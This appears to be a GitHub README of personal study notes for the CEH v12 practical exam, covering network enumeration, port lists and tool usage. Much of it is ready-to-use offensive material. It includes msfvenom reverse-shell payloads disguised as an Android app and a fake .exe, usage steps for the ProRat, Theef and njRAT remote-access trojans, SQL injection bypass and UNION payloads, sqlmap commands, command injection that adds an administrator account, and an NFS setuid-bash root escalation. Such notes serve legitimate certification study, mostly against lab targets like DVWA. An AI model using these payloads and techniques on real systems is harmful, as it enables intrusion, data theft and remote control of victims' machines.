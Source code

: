 # ceh_practical_ceh12
all about ceh v12 practical exam, what types of questions, and stuff
##### to find hashes,crc value and other stuff use this:
https://emn178.github.io/online-tools/crc32_checksum.html (online tools github)
https://gchq.github.io/CyberChef/  -----cyber chef


1. find the fqdn of domain controller ?
	nmap -p 389 --script ldap-rootdse localhost
	or 
	nmap -sV -p 389 localhost
	or smb os discovery nmap script port 445 
	

PORT NUMBERS:
21 - FTP
22 - SSH
23 - telnet (use - telent ip/website 80 after this type - GET / HTTP/1.0)
25,110,143 - smtp,pop3,imap
80,443,8080,8080 - HTTP,HTTPS
139,445- SMB
334- HTTPS
389- LDAP - ACTIVE DIR.
ldapsearch -H ldap://10.10.79.88 -x -s base namingcontexts (can see domain controller name here)

2049-NFS network file system (mounting). To see the mount share do = showmount -e ip it will show something like /home
	sudo mount -t nfs IP:/home /tmp/mount/ -nolock (to mount the share to our local machine offcourse u need to make a mkdir /tmp/mount)
	
3306-MYSQL
3389- RDP (xfreerdp

#create a apk payload for android 
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.9.121.119 LPORT=4444 -f raw -o mini_hotstar.apk
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.189 LPORT=4444 -f raw ----(for php upload or file inclusion ) add (GIF98) in dvwa high diff... in the first line of code 
msfvenom -p windows/meterpreter/reverse_tcp --platform windwos -a x86 LHOST=10.9.121.119 LPORT=4444 -f exe -o fake.exe

hackable/uploads/ceh_notes
; cp /var/www/html/DVWA/hackable/uploads/shell3.png /var/www/html/DVWA/hackable/uploads/shell3.php




Remote Access Trojan (RAT):::

you will need to access some code text file so do this because it will be in win... open cmd -  dir /b/s "*.txt"
do nmap for open ports all the related ports to mobile like 80,443,8080,8443,5228,5555(5228 is google play store port)
Theef default port: 9871, 6703, FTP 2968
NJRAT default port: 5552 
MoSucker default port: 200005 
ProRat default port: 5110 

ProRat 
Execute ProRat
Set victim IP and relative port 5110 
Click to connect and search files.


Theef  
Execute Theef 
Set victim IP and relative ports to 6703,9871 and 2968 (or custom port) 
Click to connect and open file manger. 


NjRat 
Execute NjRat 
Insert IP and Port (it will attacker's ip and port this time )
Click on manager and open directory




ENTROPY VALUE (USE ent tool --- ent file.txt)



###SQL INJECTION(sqli)

COMMENTS USE IN SQLi
Oracle	      --comment
Microsoft     --comment or /*comment*/
PostgreSQL    --comment or /*comment*/
MySQL	      #comment or -- comment [Note the space after the double dash] or /*comment*/


VERSION USE IN SQLi
Oracle         --- select version from v$instc
Microsoft      --- select @@version
PostreSQL      --- select version()
MySQL          --- select @@version



to login in as random user use below line:
lskdjf' or 1=1 -    ---(remember the space after 1 and if this doesn't work try other payload)

sqli some payload to use
admin' --  
admin' #  
admin'/*  
' or 1=1--  
' or 1=1#  
' or 1=1/*  
') or '1'='1--  
') or ('1'='1—


sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=&Submit=Submit#" --cookie="PHPSESSID=6jdekes1pn684pit6c16e34n6h; security=low; -dbs   (START FROM THIS THEN YOU'LL GET DATABASES)
 --cookie="PHPSESSID=6jdekes1pn684pit6c16e34n6h; security=low; ui-tabs-1=0" -D moveiscope --tables -dbs  -----(USE LOGGED IN USER OR NOT BUT USE --COOKIE WITH SECRUTIRYS)

with agressive scanning 
sqlmap -u "domain.xyz" --crawl=3 --level=5 --risk=3 --dbs
    OR
use jsql might work

 
 payload
 1' union select null,version(),null# ----simple union one
 1' union select table_name,null from information_schema.tables where table_schema='dvwa'# ----- where table_schema is basically database name dont forget it 
 1' union select column_name, table_name from information_schema.columns where table_name="users"# 
 1' union select user,password from users#
 

###SMB 445 
to see share of smb 
smbclient -L //ip/
to see inside the share 
smbclient //ip/share_name

nmap script named smb-enum-shares (use if other smb tool not working)
nmap smb-vuln* 

smbmap tool to get into smb 
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1 (-d is optional)

Overall Scan - 
enum4linux -a ip


#####WORDPRESS (WPSCAN) AND USER AND PASSWORD ENUMERATION
to enumerate password of the user use metasploit - 
wordpress_login_enum (msfconsole)

wpscan --url http://192.168.1.10:8080/wordpress -u sarah -P passwdlist.txt
wpscan --url http://192.168.1.10:8080/wordpress --enumerate u ---to get usernames



####OPENVAS (https://127.0.0.1:9392/) DEFAULT PORT
to start the service---   sudo gvm-start
to stop  the service---   sudo gvm-stop  

#### NESSUS (https://kali:8834/)


####STEGNOGRAPHY
steghide --embed -sf file.jpg -ef data.txt ---- to add txt file in the image 
steghide --extract -sf file.jpg -----to extract the file 
steghide info file.jp ----to check if it has any file inside the image
stegseek file.jpg rockyou.txt ---- crack the steg image file if password is in the wordlist

and another tool both in win. and linux 
snow and stegsnow
stegsnow -p "root" -m "This is the real harry pass.: lsdkjfdl34re0dkj" pass.txt restricted.txt (restricted is the file which has hidden data)
stegsnow -p "root" restricted.txt 
SAME IN WINDOWS 


SNOW WINDOWS
snow.exe -C -p "password" stegfile.txt 


### wireshark filters

// filters by post
http.request.method==POST --check password or username

to check the ip and how has sent the most and least packets to victim and other things 
tcp.flags.syn==1 and tcp.flags.ack==0 ----this is show you ddos packets go to statictics > ipv4 > ip source & des > check which one you want ip (destination and ports)

ip.dst == 172.22.10.10 (display filter)

Open IPv4 Conversations:
Statistics > Conversations > IPv4 tab.
Sort by Packets:
Click on the Packets column header to sort conversations by packet count.
Identify the least packet count:
Look through the sorted list to find the conversation with the least number of packets sent to 172.22.10.10 .

### Identify IoT Message and its Length:

to filter only publish message and get that only use mqtt.msgtype==3
you'll get only publish messagge
or
Filter .cap file on wireshark with 'MQTT' filter
Select packet related to Publish Message
Click on MQ Telemetry Transport Protocol -> Header Flags -> Message Msg Len 
or

Click on MQ Telemetry Transport Protocol -> Publish Message -> Msg Len



####
http://www.site.com/index.php?page_id=95 (useful to finding pages and flag)
 ####


###### Privilege scalation 
ssh -p 2222 user@1ip
sudo -ls ###list the su permisions

sudo vim -c ':!/bin/sh' ### privilege escalation

	OR
	
Misconfigured NFS (Port 2049)

nmap -sV -p 2049 IP/Subnet
sudo apt-get install nfs-common (IF NOT install)
Enumerate NFS Shares:

nmap -sV --script=nfs-showmount <Target_IP>
Check Available Mounts:

showmount -e <Target_IP>
We will see the /home directory.
Create Directory to Mount NFS Share:

mkdir /tmp/nfs
Mount the NFS Share:

sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
Change to the Mounted Directory:

cd /tmp/nfs
Copy bash to the Mounted Directory:

sudo cp /bin/bash .
Make bash Executable a Setuid Binary:

sudo chmod +s bash
It will be highlighted in red.
Check Permissions and Mounted Filesystems:

ls -la
sudo df -h
In Another Terminal, SSH into the Target Machine:

Execute Setuid bash to Gain Root:

./bash -p
Navigate to the /home Directory:
now check the file if you're root
find / -name "*.txt" -ls 2> /dev/null


####### FOR WINDOWS PRIVILEGE ESCALATION USE
BeRoot tool 




####CRYPTOGRAPHY 
BCTextEncoder
if question says decode the say sniff.txt file then use bctextencoder it will be encoded file don't modify it...
and it will ask for the pass. it will one of the user's pass.




####DVWA (COMMAND INJECTION) -
net user 
net user /Add Test
net localgroup Administrators Test /Add  (granted admin privileges)

commands to use in commands injection
;,&,|,||,$



###FILE UPLOAD
GIF98 (in the first line of payload) this is for high level...save as jpeg or png

#####adb or android 
to check open ports: 5555
more adb port imp is 5555 and others that may use are 5037 ie. adb server then 5555 ie. wireless adb
80/443 use for web services, 22 for ssh,8000 for scrcpy streaming display and 5554-5584 for android emulator.
connect adb to ip:5555
adb shell
adb pull i.e for downloading content locally 
adb push i.e for uploading content locally




